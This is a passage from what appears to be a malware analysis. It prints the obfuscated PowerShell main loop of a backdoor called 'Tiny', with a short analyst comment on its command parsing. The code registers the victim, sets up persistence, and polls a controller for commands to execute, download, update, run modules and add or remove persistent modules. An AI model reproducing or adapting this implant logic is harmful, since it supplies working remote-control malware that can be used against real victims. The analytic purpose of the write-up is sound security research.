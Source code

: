 ```csharp
    } catch {}
}
```

###### The last block of code is the loop for acquiring the orders of the attacker and the loading of the registration of the new victim. We can see that the parsing algorithm is more near a programmer used to coding in python (absence of switch capacity), this use multiple time elseif for the parsing command system. 

``` csharp
function STaRT-mAinLoop
{
  param(${iNTeRnAlUseRiD}, ${INTeRNaLuSErKeY})
  while (${TRue}) {
    &("Start-Sleep") -s ${SLEEPtiMESec}
    try
    {
      ${rEQUESt} = &("Prepare-Request") ${WaItiNGTRIg} ${intERNALUseRid} ${inTErnAlUseRkey}
      ${comMaND} = &("Send-ToHost") ${rEquEsT}
      if(${ENcODING}."GEtsTRiNg"(${COMmAND}) -eq ("delete")) {&("Delete-Tiny")}
      ${decRYPtED} = &("Decrypt-Data") ${CoMmAND} ${iNteRnAlUSeRkEy}
      if(${decrypTEd}.("contains").Invoke("exec:")) {&("Execute-StandartCommand") ${DECRyPted} ${InTERnaLUSerID} ${InTERNALuserkEY}} 
      elseif(${DecRYpteD}.("contains").Invoke("download:")) {&("Download-File") ${deCryPTED} ${iNteRNALUsERId} ${iNTerNaLUserkeY}}
      elseif(${deCRypTEd}.("contains").Invoke("set_wait_time:")) {${SLEEpTImESEC} = &("Change-Timeout") ${dEcryPtEd} ${InTErNALuSErId} ${InTERnaLuSERkEY}}
      elseif(${DeCrypTEd} -eq ("update_tiny")) {&("Update-Tiny") ${INTeRnAlUSerID} ${iNTeRNAlUserKey}}
      elseif(${dECRyptEd}.("contains").Invoke(("run_module:"))) {&("Run-Module") ${dECryPteD}.("substring").Invoke(11) ${InteRnALUSEriD} ${iNtERnAlUsERKeY}}
      elseif(${dECRYPTEd}.("contains").Invoke("add_persist_module:")) {&("Add-PersistModule") ${DeCryPTED}.("substring").Invoke(19) ${INTERNalUseRid} ${INTeRnALuserkeY}}
      elseif(${DECrYptED}.("contains").Invoke("remove_persist_module:")) { &("Remove-PersistModule") ${DeCRyPTed}.("substring").Invoke(22) ${iNternALUsERiD} ${InTeRnalusERkEY}}
    } catch {}
  }
}
function sTArT-tInY
{
  ${INTerNaLuSeRID} = 0
  ${iNTerNaLusERKeY} = ''
  ${ClieNtiD} = &("Get-ClientID")
  ${IsREg} = &("Check-Reg") ${ClientID}
  if(!${ISReG}) 
  {
    ${iDaNdkey} = &("Register-Tiny")
    ${iNTeRNaLUserID}, ${iNteRnaLUSERKEY} = ${IDaNDkEY}.("Split").Invoke(';')
    &("Get-Persistance") ${intERNAlUSERid} ${iNTErNAluSErKEY} ${cLieNTiD}
  } 
  else 
  {
    ${interNalUSERid}, ${InTErnALusErkEY} = ${iSReg}."REgisTEreD".("Split").Invoke(';')
    &("Check-RemoteHost")
    &("Load-AllPersistModules") ${inTERNALUsERId} ${InTERNAlUsERKEY}
  }
  &("Start-MainLoop") ${InTernaLUSErid} ${iNTERNALusERKey}
}

&("Start-Tiny")
```
